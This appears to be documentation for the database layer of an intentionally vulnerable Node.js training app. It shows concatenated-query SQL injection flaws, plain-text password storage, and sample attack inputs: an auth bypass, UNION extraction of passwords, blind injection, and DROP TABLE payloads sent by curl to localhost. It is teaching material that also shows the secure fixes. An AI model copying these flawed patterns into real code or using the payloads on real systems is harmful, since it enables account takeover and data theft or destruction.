


# Model Module

The model directory contains the data access layer (DAL) for the Vulnerable Node application. These modules interact with the PostgreSQL database to perform CRUD operations for users, products, and purchases.

## Table of Contents

- [Overview](#overview)
- [Database Schema](#database-schema)
- [Module Files](#module-files)
- [Critical Vulnerabilities](#critical-vulnerabilities)
- [Database Operations](#database-operations)
- [Security Anti-Patterns](#security-anti-patterns)

## Overview

The model layer uses the `pg-promise` library to connect to PostgreSQL and execute queries. **All database operations in this module contain intentional SQL injection vulnerabilities** through direct string concatenation of user inputs.



## Database Schema

The application uses three main tables:

### users

Stores user authentication credentials.

| Column | Type | Constraints | Description |
|--------|------|-------------|-------------|
| name | VARCHAR(100) | PRIMARY KEY | Username (login identifier) |
| password | VARCHAR(50) | | Plain text password (VULNERABLE) |

**Example Data:**
```sql
INSERT INTO users (name, password) VALUES 
  ('admin', 'admin'),
  ('roberto', 'asdfpiuw981');
```

> [!WARNING]
> Passwords are stored in plain text - another intentional vulnerability!

### products

Product catalog information.

| Column | Type | Constraints | Description |
|--------|------|-------------|-------------|
| id | INTEGER | PRIMARY KEY | Product identifier |
| name | VARCHAR(100) | NOT NULL | Product name |
| description | TEXT | NOT NULL | Product description |
| price | INTEGER | | Price in currency units |
| image | VARCHAR(500) | | Image filename |

### purchases

Customer purchase history.

| Column | Type | Constraints | Description |
|--------|------|-------------|-------------|
| id | SERIAL | PRIMARY KEY | Auto-incrementing purchase ID |
| product_id | INTEGER | NOT NULL | Reference to product |
| product_name | VARCHAR(100) | NOT NULL | Product name (denormalized) |
| user_name | VARCHAR(100) | | Purchaser username |
| mail | VARCHAR(100) | NOT NULL | Customer email |
| address | VARCHAR(100) | NOT NULL | Shipping address |
| phone | VARCHAR(40) | NOT NULL | Contact phone |
| ship_date | VARCHAR(100) | NOT NULL | Requested ship date |
| price | INTEGER | NOT NULL | Purchase price |

## Module Files

### auth.js

**Purpose:** User authentication

**Function:** `do_auth(username, password)`

Authenticates a user by querying the database with provided credentials.

**Returns:** Promise resolving to user record if credentials are valid

**Vulnerability:** SQL Injection (OWASP A1)

```javascript
// VULNERABLE CODE
var q = "SELECT * FROM users WHERE name = '" + username + 
        "' AND password ='" + password + "';";
```

**Attack Example:**
```javascript
// Bypass authentication
do_auth("admin' --", "anything")
// Generates: SELECT * FROM users WHERE name = 'admin' --' AND password ='anything';
// The -- comments out the password check
```

### products.js

**Purpose:** Product catalog and purchase operations

**Functions:**

#### `list()`

Retrieves all products from the catalog.

**Returns:** Promise resolving to array of all products

**Vulnerability:** None (no user input)

---

#### `getProduct(product_id)`

Fetches details for a specific product.

**Parameters:**
- `product_id` - Product identifier

**Returns:** Promise resolving to product record

**Vulnerability:** SQL Injection via product_id

```javascript
// VULNERABLE CODE
var q = "SELECT * FROM products WHERE id = '" + product_id + "';";
```

**Attack Example:**
```javascript
getProduct("1' OR '1'='1")
// Returns all products instead of just product 1
```

---

#### `search(query)`

Searches products by name or description.

**Parameters:**
- `query` - Search term

**Returns:** Promise resolving to matching products

**Vulnerability:** SQL Injection via query parameter

```javascript
// VULNERABLE CODE
var q = "SELECT * FROM products WHERE name ILIKE '%" + query + 
        "%' OR description ILIKE '%" + query + "%';";
```

**Attack Examples:**
```javascript
// Extract data
search("'; SELECT * FROM users; --")

// Drop tables (destructive)
search("'; DROP TABLE products; --")
```

---

#### `purchase(cart)`

Records a product purchase in the database.

**Parameters:**
- `cart` - Object containing:
  - `mail` - Customer email
  - `product_name` - Product name
  - `username` - Buyer username
  - `product_id` - Product ID
  - `address` - Shipping address
  - `ship_date` - Requested ship date
  - `phone` - Contact phone
  - `price` - Purchase price

**Returns:** Promise resolving to inserted purchase record

**Vulnerability:** Multiple SQL injection points

```javascript
// VULNERABLE CODE - All fields concatenated
var q = "INSERT INTO purchases(...) VALUES('" +
        cart.mail + "', '" +
        cart.product_name + "', '" +
        // ... more unescaped values
```

**Attack Example:**
```javascript
purchase({
    mail: "test@test.com'; DROP TABLE purchases; --",
    // ... other fields
})
// Attempts to drop the purchases table
```

---

#### `getPurchased(username)`

Retrieves all purchases for a specific user.

**Parameters:**
- `username` - User to fetch purchases for

**Returns:** Promise resolving to array of purchase records

**Vulnerability:** SQL Injection via username

```javascript
// VULNERABLE CODE
var q = "SELECT * FROM purchases WHERE user_name = '" + username + "';";
```

**Attack Example:**
```javascript
getPurchased("' OR '1'='1")
// Returns ALL purchases from ALL users
```

### init_db.js

**Purpose:** Database initialization and test data population

**Function:** `init_db()`

Creates database tables and populates them with dummy data on application startup.

**Strategy:** 
- Attempts to CREATE tables
- If CREATE fails (table exists), inserts dummy data
- Uses parameterized queries for data insertion (SAFE)

**Tables Created:**
1. `users` - User accounts
2. `products` - Product catalog
3. `purchases` - Purchase history

**Note:** This module uses **safe parameterized queries** for inserting test data, demonstrating the correct approach that is intentionally NOT used in the other modules.

```javascript
// SAFE CODE (used only in init_db.js)
db.one('INSERT INTO users(name, password) values($1, $2)', [u.username, u.password])
```

## Critical Vulnerabilities

### SQL Injection Overview

All query functions (except `init_db.js`) concatenate user input directly into SQL statements without:
- Parameterization
- Input validation
- Escaping
- Sanitization



### Impact Assessment

| Function | Vulnerability | CIA Impact | Exploitability |
|----------|---------------|------------|----------------|
| `do_auth()` | SQL Injection | **High** - Auth bypass | **Critical** - Easy |
| `getProduct()` | SQL Injection | Medium - Data disclosure | High - Simple |
| `search()` | SQL Injection | **Critical** - Full DB access | **Critical** - Easy |
| `purchase()` | SQL Injection | **Critical** - Data manipulation | High - Complex payload |
| `getPurchased()` | SQL Injection | **High** - PII disclosure | High - Simple |

**CIA:** Confidentiality, Integrity, Availability

## Database Operations

### Connection Management

```javascript
// Shared configuration
var config = require("../config");
var pgp = require('pg-promise')();

// Per-query connection (auth.js)
function do_auth(username, password) {
    var db = pgp(config.db.connectionString);
    // ... use db
}

// Persistent connection (products.js)
var db = pgp(config.db.connectionString);
// ... reuse db across functions
```

### Query Patterns

**Current (Vulnerable) Pattern:**
```javascript
// ❌ VULNERABLE - String concatenation
var q = "SELECT * FROM table WHERE column = '" + userInput + "';";
return db.one(q);
```

**Secure Pattern (NOT used in this project):**
```javascript
// ✅ SECURE - Parameterized query
var q = "SELECT * FROM table WHERE column = $1";
return db.one(q, [userInput]);
```

## Security Anti-Patterns

This module demonstrates several security anti-patterns that should **NEVER** be used in production:

### 1. Direct String Concatenation

```javascript
// WRONG
"SELECT * FROM users WHERE name = '" + username + "'"
```

### 2. No Input Validation

```javascript
// No checks on username format, length, or content
function do_auth(username, password) {
    // Immediately use in query without validation
    var q = "SELECT * FROM users WHERE name = '" + username + "'";
}
```

### 3. Plain Text Passwords

```javascript
// Passwords stored in plain text in database
// No hashing, no salting, no encryption
```

### 4. Verbose Error Messages

```javascript
// Database errors propagated to user
// (Handled in routes layer, but originates here)
```

### 5. No Prepared Statements

```javascript
// Every query is dynamic
// No use of prepared statements or stored procedures
```

## Secure Alternatives

> [!NOTE]
> These patterns are NOT implemented in this vulnerable application but show the correct approach.

### Parameterized Queries

```javascript
// Use pg-promise placeholders
function secure_auth(username, password) {
    var db = pgp(config.db.connectionString);
    var q = "SELECT * FROM users WHERE name = $1 AND password = $2";
    return db.one(q, [username, password]);
}
```

### Password Hashing

```javascript
const bcrypt = require('bcrypt');

// Store hashed passwords
async function createUser(username, password) {
    const hash = await bcrypt.hash(password, 10);
    var q = "INSERT INTO users(name, password) VALUES($1, $2)";
    return db.one(q, [username, hash]);
}

// Verify passwords
async function authenticate(username, password) {
    var q = "SELECT * FROM users WHERE name = $1";
    const user = await db.one(q, [username]);
    return bcrypt.compare(password, user.password);
}
```

### Input Validation

```javascript
function validateProductId(id) {
    // Ensure ID is numeric
    if (!/^\d+$/.test(id)) {
        throw new Error("Invalid product ID");
    }
    return parseInt(id);
}

function getProduct(product_id) {
    const validId = validateProductId(product_id);
    var q = "SELECT * FROM products WHERE id = $1";
    return db.one(q, [validId]);
}
```

## Testing SQL Injection

### Authentication Bypass

```bash
# Login as admin without password
curl -X POST http://localhost:3000/login/auth \
  -d "username=admin' --&password=anything"
```

### Data Extraction

```bash
# Search to extract user data
curl "http://localhost:3000/products/search?q=' UNION SELECT name, password, null, null, null FROM users --"
```

### Boolean-Based Blind SQL Injection

```bash
# Test if admin user exists
curl "http://localhost:3000/products/detail?id=1' AND (SELECT COUNT(*) FROM users WHERE name='admin')>0 --"
```

## Related Documentation

- [Routes Layer](../routes/README.md) - HTTP handlers that call these functions
- [SECURITY.md](../SECURITY.md) - Complete vulnerability documentation
- [Attack Examples](../attacks/README.md) - SQL injection demonstrations

---

> [!CAUTION]
> This data access layer is intentionally vulnerable. Never use these patterns in production code. Always use parameterized queries and input validation.
